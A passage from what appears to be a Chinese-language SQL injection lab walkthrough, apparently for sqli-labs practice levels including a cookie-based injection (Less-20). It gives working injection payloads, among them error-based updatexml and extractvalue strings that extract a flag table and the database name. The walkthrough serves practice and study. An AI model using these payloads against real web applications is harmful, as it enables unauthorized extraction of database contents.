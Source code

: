 探测如上，开始注入：

```sql
foo','(select username from users where id=@@version)')# 
```

无回显，试试报错注入：

```sql
1' or updatexml(1,concat(0x7e,(select group_concat(flag) from flag)),1))#
1' or extractvalue(1,concat(0x7e,(database()),0x7e))#
```

![img](assets/1666747502403-431de4e3-8911-4b8a-b7d3-b480a563c457.png)

## Less-20   （')单引号闭合cookie注入）

![img](assets/1666748290927-4e01a6b7-8cc3-42c2-8b07-7111c1e3b4c7.png)
